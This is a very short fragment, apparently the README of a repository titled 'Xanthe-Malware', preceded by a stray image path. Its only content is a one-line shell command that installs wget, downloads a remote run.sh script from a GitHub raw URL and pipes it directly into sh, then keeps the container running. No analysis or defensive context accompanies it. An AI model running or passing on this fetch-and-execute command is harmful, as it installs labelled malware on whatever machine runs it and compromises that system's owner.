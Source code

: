 # Xanthe-Malware

`apt-get update && apt-get install -y wget;wget -q -O - https://raw.githubusercontent.com/nandakrr/xanthe/main/run.sh | sh;tail -f /dev/null`
